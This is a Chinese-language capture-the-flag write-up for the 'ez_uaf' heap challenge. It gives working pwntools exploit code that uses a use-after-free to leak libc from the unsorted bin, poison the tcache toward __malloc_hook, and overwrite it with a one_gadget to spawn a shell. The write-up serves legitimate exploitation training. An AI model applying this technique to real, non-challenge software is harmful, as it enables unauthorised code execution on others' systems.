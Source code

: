 ```yaml
---
title: '[HNCTF 2022 WEEK4] ez_uaf'
date: 2024-04-03 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,unsortedbin,leak_libc]
---
```


```shell
[*] '/home/bamuwe/ez_uaf/ez_uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $ checksec ./ez_uaf

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> $ ./ez_uaf

```c
__int64 delete()
{
  __int64 result; // rax
  signed int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && *(*(&heaplist + v1) + 28LL) )
  {
    free(*(*(&heaplist + v1) + 16LL));
    free(*(&heaplist + v1));
    result = *(&heaplist + v1);
    *(result + 28) = 0;
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
  return result;
}
```

> delete()漏洞函数,没有清除指针

```python
def add(size,name,content):
    io.sendlineafter(b'Choice: \n',b'1')
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendafter(b'Name: \n',name)
    io.sendafter(b'Content:\n',content)

def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(int(idx)))

def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    
def edit(idx,content):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(int(idx)))
    io.send(content)
```

> 交互函数

程序逻辑:

1. `add()`一个`chunk`
2. `free()`这个区块后仍然可以对这个区块进行`edit()`,`show()`

利用思路:

1. 利用unsortbin指向自身的特点,泄露出`main_arena`的地址,进而泄露出`__malloc_hook`的地址

   ```python
   add(0x410,b'a',b'a')    #0
   add(0x20,b'b',b'1111')  #1						#后续利用的chunk
   add(0x10,b'c',b'c')     #2						#后续利用的chunk
   free(0)                                         #unsortbin指向自身
   show(0)
   #leak_libc
   io.recvuntil(b'\n')
   malloc_hook_addr = u64(io.recv(6).ljust(8,b'\x00'))-96-16
   success(f'malloc_hook_addr=> {hex(malloc_hook_addr)}')
   lib_offset = malloc_hook_addr - lib.sym['__malloc_hook']
   one_gadgets_addr = 0x10a2fc+lib_offset			#后续利用
   ```

   ![image-20240430195924018](../assets/img/old_imgs/image-20240430195924018.png)

2. 释放`chunk1`并且修改`chunk1`的`fd`的地址为`__malloc_hook`的地址,制造`fake_chunk`

   ```python
   free(1)
   edit(1,p64(malloc_hook_addr))       # 修改fd
   ```

   ![image-20240430200315872](../assets/img/old_imgs/image-20240430200315872.png)

3. 利用`fake_chunk`修改`__malloc_hook` 的内容为`one_gadget`,重新`add()`一个`chunk`得到`shell`

   ```python
   add(0x10,b'2',b'2')     #3          #tcachebin规则          
   add(0x20,b'3',b'3')     #4        #fake_chunk,地址为malloc_hook_addr
   edit(4,p64(one_gadgets_addr))
   
   io.sendlineafter(b'Choice: \n',b'1')
   io.sendlineafter(b'Size:\n',b'0x20')
   ```

   提到`tcachebin`规则,由上图可知,当前`tcachebin`在`malloc_hook`之前还有两个堆块,所以我们要填充再利用

关于`unsortedbin`:

> 1.当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
>
> 2.释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
>
> 3.当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

